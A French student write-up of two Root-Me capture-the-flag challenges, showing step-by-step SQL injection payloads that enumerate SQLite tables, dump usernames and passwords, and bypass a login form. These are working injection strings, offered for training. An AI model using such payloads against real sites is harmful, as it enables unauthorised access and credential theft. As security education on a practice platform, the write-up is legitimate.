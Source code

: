 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

Database version : SQLite3

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19

## Reconnaissance
### Detection

```sql
admin
admin'
```

![Pasted image 20230118143012](https://user-images.githubusercontent.com/122984033/213186831-23504ec9-2705-4345-9044-0ae77b53aace.png)

Requête POST /web-serveur/ch9/
```javascript
login=admin&password=admin%27
```

![Pasted image 20230118143340](https://user-images.githubusercontent.com/122984033/213187295-70abea90-85fe-48b5-baa8-ef888b7085e2.png)

On obtient l'erreur SQL de lase base de données SQlite3 :

![Pasted image 20230118143526](https://user-images.githubusercontent.com/122984033/213187431-b7e42334-f087-405a-a1f4-d2f3df818305.png)

## Exploitation
### Requête true

Requête POST avec la charge utile dans le point d'injection qui correspond à la partie password dans le formulaire :
```sql
login=admin&password=admin' OR '1'='1
```

![Pasted image 20230118143728](https://user-images.githubusercontent.com/122984033/213187676-ad879ddd-e43f-44c8-90e8-9ea310198293.png)

On obtient un accès au compte user1 :

![Pasted image 20230118143835](https://user-images.githubusercontent.com/122984033/213187815-f1fdc674-08df-4376-a86e-a1cd3565457c.png)









